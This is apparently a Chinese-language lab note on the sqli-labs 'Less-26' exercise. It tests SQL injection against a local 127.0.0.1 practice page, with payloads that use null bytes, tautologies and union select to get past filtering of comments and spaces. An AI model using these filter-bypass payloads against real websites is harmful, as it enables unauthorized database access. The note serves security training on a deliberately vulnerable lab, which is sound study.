

# Less-26_01
为了测试方便，我们在代码中加入：
echo $sql;
echo "<br>";
1. http://127.0.0.1/sqli/Less-26/?id=1 显示正常
2. http://127.0.0.1/sqli/Less-26/?id=1’--+ 无法正常显示，代码中过滤了注释符--+  # ，空格，正反斜杠
3. http://127.0.0.1/sqli/Less-26/?id=1’ ;%00 此时显示正常，说明存在注入漏洞
4. http://127.0.0.1/sqli/Less-26/?id=1‘ || ’1‘=‘1 也可以作为一个验证
5. http://127.0.0.1/sqli/Less-26/?id=1‘ union select 1,2,3;%00 报错，通过tips发现，union和select之间没有空格
6. 在win下因为转码问题，无法使用空格替换的情况。
7.  先不管空格替换的情况，先使用报错注入进行测试。